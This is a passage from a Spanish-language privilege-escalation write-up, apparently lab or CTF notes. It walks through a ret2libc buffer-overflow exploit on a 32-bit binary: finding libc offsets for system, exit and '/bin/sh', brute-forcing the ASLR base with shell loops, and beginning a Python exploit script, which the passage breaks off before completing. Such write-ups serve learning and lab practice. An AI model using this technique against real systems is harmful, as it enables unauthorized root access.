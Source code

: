     Aqui el *0003ada0* y el *0002e9d0* son los offset que tendriamos que sumar a la direccion de la libreria libc

1. el offset de la cadena `/bin/sh`

    ```bash
    strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
    
    #Output
    15ba0b /bin/sh
    ```

En este caso las direcciones serian 
- system = 0xb771f000 + 0003ada0
- exit = 0xb771f000 + 0002e9d0
- /bin/sh = 0xb771f000 + 15ba0b

Pero como la direccion cambia la tenemos que calcular o conocer antes. La suerte aqui es que como estamos en 32b, las
direcciones no cambian demasiado y esto se puede comprobar con bucles.

1. Verificamos con un bucle de 10 turnos las direcciones cambiantes

    ```bash
    for i in $(seq 1 10); do ldd rop | grep libc | awk 'NF {print $NF}' | tr -d '()'; done
    ```

1. Copiamos una de ellas (0xb7568000) y miramos si aparece multiples veces en un bucle de 1000 turnos

    ```bash
    for i in $(seq 1 1000); do ldd rop | grep libc | awk 'NF {print $NF}' | tr -d '()'; done | grep "0xb7568000"
    ```

Constatamos que aparece multiples vecez. Esto quiere decir que podriamos lanzar el binario o mejor dicho el exploit multiples vecez hasta que 
esta direccion salga.


#### Creando el exploit en python {-}

```bash
cd /tmp
mkdir privesc
cd $!
touch exploit.py
vi exploit.py
```

El exploit seria:

```python
#!/usr/bin/python

from struct import pack
from subprocess import call
import sys

offset = 52
junk = "A"*offset

#ret2libc -> system_addr + exit_addr + bin_sh_addr

base_libc = 0xb7568000

#141: 0002e9d0 31 FUNC GLOBAL DEFAULT 13 exit@@GLIBC_2.0
#1457: 0003ada0 31 FUNC WEAK   DEFAULT 13 system@@GLIBC_2.0
#15ba0b /bin/sh

```